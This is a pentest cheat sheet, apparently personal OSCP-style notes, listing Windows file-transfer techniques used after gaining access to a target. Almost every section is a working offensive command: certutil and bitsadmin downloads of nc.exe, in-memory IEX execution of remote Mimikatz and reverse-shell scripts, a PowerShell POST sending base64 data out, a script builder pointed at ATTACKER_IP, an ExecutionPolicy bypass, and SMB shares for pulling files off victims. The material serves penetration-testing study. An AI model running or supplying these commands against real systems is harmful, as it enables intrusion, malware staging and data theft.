 ```yaml
---
title: "Windows"
permalink: /notes/filetransferwindows/
classes: single
ribbon: LightBlue
categories:
  - notes
tags:
  - beginner
  - pentest
  - recon
  - oscp
  - transfer
  - filetransfer
  - windows

toc: true
hide_title: true
excerpt: ""
---
```


## Fast Windows Commands

| Command | Description |
|---------|-------------|
| Invoke-WebRequest https://<snip>/PowerView.ps1 -OutFile PowerView.ps1 | Download a file with PowerShell |
| IEX (New-Object Net.WebClient).DownloadString('https://<snip>/Invoke-Mimikatz.ps1') | Execute a file in memory using PowerShell |
| Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64 | Upload a file with PowerShell |
| bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe | Download a file using Bitsadmin |
| certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe | Download a file using Certutil |
| scp C:\Temp\bloodhound.zip user@10.10.10.150:/tmp/bloodhound.zip | Upload a file using SCP |
| scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe | Download a file using SCP |
| Invoke-WebRequest http://nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "nc.exe" | Invoke-WebRequest using a Chrome User Agent |

## Certutils

```
certutil.exe -urlcache -split -f http://10.0.0.5/40564.exe bad.exe
```

## IWR (Invoke Web Request)

```
powershell.exe Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1

powershell.exe -command iwr -Uri http://192.168.1.2/putty.exe -OutFile C:\Temp\putty.exe "
```

## System.Net.WebClient

```
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.1.2/putty.exe', 'putty.exe')
```

## IEX

Instead of downloading to disk, the payload can instead be executed in memory, using Invoke-Expression, or the alias **iex**.

```
powershell.exe iex (New-Object Net.WebClient).DownloadString('http://192.168.119.193:8000/ps-sudo.ps1')
```

IEX also accepts pipeline input.

```
powershell Invoke-WebRequest http://10.10.16.26/rev.ps1 | iex
```

### Internet Explorer Basic Parsing

There may be cases when the Internet Explorer first-launch configuration has not been completed, which prevents the download.

Escaping shell

If you ever encounter error regarding slash while supplying any of above command **Incorrect syntax near '/'.** Use `/` to escape it -

```
powershell.exe IEX (New-ObjectNet.WebClient).DownloadString(\"http://10.10.16.26:8000/rev.ps1\")
```

## Script

- if above command get **blocked** we can make **ps script** that will download our file
- run following commands in victim :

```
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >> wget.ps1
echo $url = "[http://ATTACKER_IP/nc.exe"](http://ATTACKER_IP/nc.exe) >> wget.ps1
echo $file = "nc.exe" >> wget.ps1
echo $webclient.DownloadFile($url,$file) >> wget.ps1
```

Execution of script

```
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

## SMB

**Attacker** -

```
smbserver.py gabbar /tmp
```

**Target -**


```
dir \\Attacker_ip\gabbar
# will list out all files

copy \\10.10.14.109\gabbar\winPEASx86.exe .
# To download from our machine

copy user.txt \\10.10.14.109\gabbar
# To upload file to our box
```